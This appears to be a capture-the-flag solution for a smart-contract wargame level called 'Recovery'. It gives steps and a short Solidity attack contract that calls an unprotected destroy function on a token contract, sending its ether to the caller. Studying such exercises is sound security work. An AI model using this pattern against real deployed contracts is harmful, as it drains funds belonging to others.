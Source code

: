 # Recovery

## Hack:

Step1:

Take instance address to etherscan and locate new contract address.

Step2: Write some code!

```// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import './SimpleToken.sol';

contract RecoveryAttack {
    SimpleToken instance = SimpleToken(0x4D4214f8EF272468Eb16d49737bEE6308c94cf60);

    function attack() external {
        instance.destroy(payable(msg.sender));
    }

}
```
Step3: Resolve import issues and deploy

Step4: Call attack function -> Notice it grabs the instance of SimpleToken and calls self destruct which inturns forces contract value into `msg.sender` wallet.